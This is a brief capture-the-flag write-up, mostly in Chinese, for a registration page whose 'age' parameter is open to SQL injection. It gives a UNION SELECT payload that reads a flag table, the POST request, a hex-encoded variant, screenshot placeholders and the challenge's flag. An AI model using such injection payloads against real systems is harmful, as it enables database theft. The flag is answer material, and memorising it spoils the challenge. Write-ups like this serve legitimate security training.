 # writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
### 0x01 题目链接
![](./images/1.jpg)

### 0x02 注册页面
![](./images/2.jpg)

### 0x03 age be a number
![](./images/3.png)

### 0x04 注册post包
![](./images/4.png)

### 0x05 注册成功
![](./images/5.png)

### 0x06 登陆页面
![](./images/6.png)

### 0x07 登陆后的返回包
![](./images/7.png)

### 0x08 登陆成功看到flag
![](./images/8.png)


** QWB{M0b4iDalao0rz0rz} **

